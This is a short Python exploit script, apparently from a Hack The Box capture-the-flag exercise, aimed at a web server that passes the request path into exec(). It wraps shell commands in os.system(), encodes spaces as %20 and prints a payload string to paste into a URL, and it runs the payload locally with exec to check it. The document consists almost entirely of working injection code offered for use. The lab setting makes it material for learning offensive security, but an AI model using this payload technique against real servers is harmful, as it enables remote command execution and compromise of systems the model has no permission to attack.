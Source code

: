 ```
import urllib.parse
import subprocess

# WE IMPORT THE SAME IMPORTS AS IN THE SCRIPT
# This first function is there to format our request.
def parseRequest(request):
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}

# Second function which formats the doc as the server does, prints the doc that we can copy paste in our url, and check if it executes locally
def run(doc):
    path = urllib.parse.unquote(doc)

    info = "output = 'Document: {}'"
    d = info.format(path)
    print('')
    print(d)
    exec(d)

# One thing we see in the parseRequest is thatthe first line of the request is split on spaces to determine the method, doc, and vers, so we need to replace any space in our command with %20. We then pass our cmd through the pipeline and we can see the output
def htmlfreindly(cmd):
    shell = str(cmd).replace(" ", "%20")
    inject = f"os.system('{shell}')"
    code = f"/index.html',{inject},'"

    req = f"""GET {code} HTTP/1.1
    Host: obscure.htb:8080
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0"""

    data = parseRequest(req)
    print(data)
    print('')
    print("COPY THIS:: ",code)# this actually prints the code to copy
    run(data['doc'])


htmlfreindly('ls')
```
